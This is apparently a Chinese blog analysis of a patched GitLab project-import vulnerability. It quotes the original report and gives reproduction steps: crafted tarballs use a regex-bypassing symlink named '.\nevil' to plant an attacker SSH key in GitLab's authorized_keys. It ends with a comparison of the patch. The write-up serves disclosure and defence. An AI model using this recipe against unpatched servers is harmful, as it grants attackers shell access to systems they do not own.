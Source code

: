 #### 介绍
最近GitLab官方发布的几个安全公告，包含一个Projects Import处的RCE漏洞。

A filename regular expression could be bypassed and enable the attacker to create a symbolic link in Gitlab upload directory by importing a specially crafted Gitlab export. Further more, Gitlab is designed to not delete project upload directory currently. So, the attacker could delete the imported project and then upload another specially crafted Gitlab export to a project with the same name, which leads to path traversal/arbitrary file upload and finally enables the attacker to be able to get a shell with the permission of the system gitlab user.

受影响版本及详细可参考官方的issue：
> [Vulnerability in project import leads to arbitrary command execution (#49133) · Issues · GitLab.org / GitLab Community Edition · GitLab](https://gitlab.com/gitlab-org/gitlab-ce/issues/49133)

#### 漏洞分析
A filename regular expression could be bypassed and enable the attacker to create a symbolic link in Gitlab upload directory by importing a specially crafted Gitlab export. Further more, Gitlab is designed to not delete project upload directory currently. So, the attacker could delete the imported project and then upload another specially crafted Gitlab export to a project with the same name, which leads to path traversal/arbitrary file upload and finally enables the attacker to be able to get a shell with the permission of the system gitlab user.
Description:


* 1、how to create a symbolic link in the upload directory
code in file_importer.rb uses %r{.*/\.{1,2}$} to except . and .. in the extracted project import directory tree, and check everything else that does not match this regex and delete all symlinks. However, we can easily construct a symlink with the name .\nevil in the tarball that matches this regex perfectly. Therefore, it will not be removed by function remove_symlinks! in the same file, and finally uploaded to /var/opt/gitlab/gitlab-rails/uploads/nyangawa/myrepo/.\nevil -> /var/opt/gitlab (assume we import the project to nyangawa/myrepo and the symlink points to /var/opt/gitlab)


* 2、how to use the uploaded symbolic link to get shell access
First delete the nyangawa/myrepo project we just created. For some reasons the upload directory of this project does not get purged. Then we import another tarball which has, for example, uploads/.\neviil/.ssh/authorized_keys in it. And the content of this file is my ssh public key. Then import this tarball to create project nyangawa/myrepo again.


* 3、after all
the uploaded authorized_keys is copied to /var/opt/gitlab/gitlab-rails/uploads/nyangawa/myrepo/.\nevil/.ssh/authorized_keys of the victim's filesystem but unfortunately, this path redirects to /var/opt/gitlab/.ssh/authorized_keys. Then I can login to the victim server by ssh with Gitlab's system username.


For step 2 and 3, there're some other approaches to get command executed since we can already upload any file to the victim's file system controlled by Gitlab.


* Impact

  * An attacker can upload arbitrary file to the victim's file system
  * Data of other users could be override
  * An attacker can get a system shell by overwrite specific files.

To reproduce the issue with these tarballs.

* 1、create project evil_project by importing tarball1.tar.gz


root@10:/var/opt/gitlab/gitlab-rails/uploads/root# ls -alh evil_project/
total 8.0K
drwx------  2 git git 4.0K Jul 11 00:34 .
lrwxrwxrwx  1 git git   15 Jul 11 00:34 .?evil -> /var/opt/gitlab
drwxr-xr-x 10 git git 4.0K Jul 11 00:34 ..
here you can see a symbolic link is created.

* 2、remove the project evil_project, while the upload directory of this project remains unpurged.

root@10:/var/opt/gitlab/gitlab-rails/uploads/root# ls -alh evil_project/
total 8.0K
drwx------  2 git git 4.0K Jul 11 00:34 .
lrwxrwxrwx  1 git git   15 Jul 11 00:34 .?evil -> /var/opt/gitlab
drwxr-xr-x 10 git git 4.0K Jul 11 00:34 ..

* 3、importing tarball2.tar.gz to the same project evil_project, it's ok since the project was deleted in step 2

Check the authorized_keys of Gitlab
root@10:/var/opt/gitlab/.ssh# cat authorized_keys
* POC
ssh-rsa a_key_of_mine nyangawa
For the content of these tarballs
tarball1.tar.gz
$ tar tvf tarball1.tar.gz 
-rw-r--r-- asakawa/asakawa   5 2018-07-11 08:30 VERSION
-rw-r--r-- asakawa/asakawa 1754 2018-07-11 08:30 project.json
drwxr-xr-x asakawa/asakawa    0 2018-07-11 08:32 uploads/
lrwxrwxrwx asakawa/asakawa    0 2018-07-11 08:32 uploads/.\nevil -> /var/opt/gitlab
tarball2.tar.gz
$ tar tvf tarball2.tar.gz 
-rw-r--r-- asakawa/asakawa   5 2018-07-11 08:30 VERSION
-rw-r--r-- asakawa/asakawa 1754 2018-07-11 08:30 project.json
drwxr-xr-x asakawa/asakawa    0 2018-07-11 08:36 uploads/
drwxr-xr-x asakawa/asakawa    0 2018-07-11 08:36 uploads/.\nevil/
drwxr-xr-x asakawa/asakawa    0 2018-07-11 08:37 uploads/.\nevil/.ssh/
-rw-r--r-- asakawa/asakawa   51 2018-07-11 08:38 uploads/.\nevil/.ssh/authorized_keys

#### 补丁对比
可以看到将匹配的正则由%r{.*/\.{1,2}$}修改为了%w(. ..)，详细见修复代码
[lib/gitlab/import_export/file_importer.rb · v10.8.4 · GitLab.org / GitLab Community Edition · GitLab](https://gitlab.com/gitlab-org/gitlab-ce/blob/v10.8.4/lib/gitlab/import_export/file_importer.rb)
[lib/gitlab/import_export/file_importer.rb · v10.8.6 · GitLab.org / GitLab Community Edition · GitLab](https://gitlab.com/gitlab-org/gitlab-ce/blob/v10.8.6/lib/gitlab/import_export/file_importer.rb)
#### 参考
[Vulnerability in project import leads to arbitrary command execution (#49133) · Issues · GitLab.org / GitLab Community Edition · GitLab](https://gitlab.com/gitlab-org/gitlab-ce/issues/49133)
